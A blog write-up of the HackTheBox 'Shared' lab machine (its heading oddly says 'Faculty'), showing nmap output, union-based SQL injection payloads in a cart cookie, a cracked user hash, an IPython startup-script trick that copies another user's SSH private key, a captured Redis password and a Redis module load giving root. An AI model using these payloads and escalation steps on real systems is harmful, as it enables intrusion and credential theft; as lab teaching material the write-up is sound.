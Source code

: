 +++
author = "Khaled Ngm"
title = "Shared write-up (HackTheBox)"
date = "2022-10-29"
description = ""
+++

# Faculty write-up HackTheBox
![faculty](/images/shared/shared.png)

### 1. Port Scanning and Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.172``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 08:14 EDT
Nmap scan report for 10.10.11.172
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://shared.htb
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://shared.htb
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
| tls-alpn: 
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.55 seconds

```
* First of all lets add  ``shared.htb`` to /etc/hosts file .
* Then when I navigate to ``http://shared.htb`` and added an Item at cart and hover
 at **[proceed to checkout button]** I found that redirect me to subdomain ``checkout.shared.htb``

 ![sub](/images/shared/sub.png)
 * let's add ``checkout.shared.htb`` also to ``/etc/hosts``


* When I proceeded to page I found a **table** that host qty and price of product.
* I clicked pay but nothing happened , it shows only an static alert that payment recieved .
* I opened **Burp** to see request and found that the QTY and Item are stored at cookie ``custom_cart`` parameter .
![cart](/images/shared/cart.png)
* I tried change the QTY and Item and that change in table , after a few minutes I found that it's vulnerable to ``sqli`` .
* We can use ``wappalyzer extension `` that identify the database ``MySQL``.

   ![cart](/images/shared/db.png)
## Exploitation
### SQLi Payloads

* ``{"BTAPXNX4' UNION SELECT NULL-- -":"1"}`` >> Nothing returned at table.
* ``{"BTAPXNX4' UNION SELECT NULL,NULL-- -":"1"}`` >> Nothing.
* ``{"BTAPXNX4' UNION SELECT NULL,NULL,NULL-- -":"1"}`` >>>> Returnd the Item and QTY so there are 3 columns at this table .

### Return The name of Available tables.

* We can retrieve table info from information_schema.tables
* ``{"' UNION SELECT NULL,table_name,NULL FROM information_schema.tables -- -":"1"}`` but that show me only one table .
* let's use ``group_concat()`` to get all tables name concatanated ``{"' UNION SELECT NULL,group_concat(table_name),NULL FROM information_schema.tables -- -":"1"}`` .

   ![sqli](/images/shared/sqli.png)

* As we can see , we got aa table caled ``user``.

### Return The name of Available columns for ``user`` table .

* We can retrieve table info from information_schema.columns
* ``{"' UNION SELECT NULL,group_concat(column_name),NULL FROM information_schema.columns WHERE table_name='user'-- -":"1"}``

    ![col](/images/shared/col.png)

* ``{"' UNION SELECT NULL,username,NULL FROM user -- -":"1"}`` >> james_mason
* ``{"' UNION SELECT NULL,password,NULL FROM user -- -":"1"}`` >> fc895d4eddc2fc12f995e18c865cf273
* I found that md5 hash was easy to crack using any online tools .
* We have now ``james_mason`` and ``Soleil101`` to log into ``ssh``. 

## Privilege Escalation (User)

* Now we have to escalate our priveleges to ``dan_smith`` user to read user.txt file .

```
ls -la
total 3856
drwxr-xr-x 6 james_mason james_mason    4096 Oct 30 08:51 .
drwxr-xr-x 4 root        root           4096 Jul 14 13:46 ..
lrwxrwxrwx 1 root        root              9 Mar 20  2022 .bash_history -> /dev/null
-rw-r--r-- 1 james_mason james_mason     220 Mar 20  2022 .bash_logout
-rw-r--r-- 1 james_mason james_mason    3526 Mar 20  2022 .bashrc
drwx------ 3 james_mason james_mason    4096 Oct 30 08:51 .gnupg
drwxr-xr-x 2 james_mason james_mason    4096 Oct 28 11:42 .ipython
-rw-r--r-- 1 james_mason james_mason  827827 Oct 13 16:41 linpeas.sh
drwxr-xr-x 3 james_mason james_mason    4096 Oct 29 07:54 .local
-rw-r--r-- 1 james_mason james_mason     807 Mar 20  2022 .profile
-rwxr-xr-x 1 james_mason james_mason 3078592 Oct 28 02:15 pspy64
drwx------ 2 james_mason james_mason    4096 Oct 28 11:48 .ssh
```
* First I used [pspy64]('https://github.com/DominicBreuker/pspy').
* pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute .
* I found That ipython is running with ``UID=1001`` which belongs to developer . 
* Let's know the version of ipython using ``ipython --version`` >> 8.0.0 .
* After a minutes of search I found this [repo]('https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x') that disclose an arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another .

```
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > /tmp/dan.key')" > /opt/scripts_review/profile_default/startup/run.py
```

   ![key](/images/shared/danKey.png)
* Now we can login as dan_smith ``chmod 600 dan.key; ssh -i dan.key dan_smith@shared.htb`` .

## Privilege Escalation (Root)

* First I executed [linpeas.sh](https://github.com/topics/linpeas) script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts .

* I found a binary file that belong to root and readable by me .

    ![redis](/images/shared/redis.png)
* Befor Using ``redis-cli`` we have to know first ``username`` and ``password`` to authenticate .
* I used String Command to try to look at an hardcoded password and I wasn't able to identify that , so I downloaded the file locally and executed it .
* ``chmod +x redis_connector_dev ; ./redis_connector_dev`` but I got nothing.
* I started listening on ``6379`` port that redis hosted on and run binary again .

    ![auth](/images/shared/auth.png)
* I got password ``F2WHqJUz2WEz=Gqq`` and default username is ``default`` .
* After minutes of reading about redis pentesting at [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module) I found many methods to explit it .
* I tried to upload php webshell via redis-cli but it failed for me .
* So let's use ``load redis module`` technique .

    ![module](/images/shared/module.png)

* As we don't have git at our htb machine we will clone [exploit](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) locally and transfer it to the machine ``scp -r -i id_rsa.key /path/to/directory user@machine_b_ipaddress:/path/to/destination``.

* Go to RedisModules-ExecuteCommand folder and run command ``make``.

* let's run redis-cli to load module .

```
127.0.0.1:6379> AUTH default F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> module load /home/dan_smith/RedisModules-ExecuteCommand/src/module.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
```
* Now we are root :)
## Resources

* https://github.com/payloadbox/sql-injection-payload-list
* https://github.com/topics/linpeas
* https://github.com/DominicBreuker/pspy
* https://www.cve.org/CVERecord?id=CVE-2022-21699
* https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
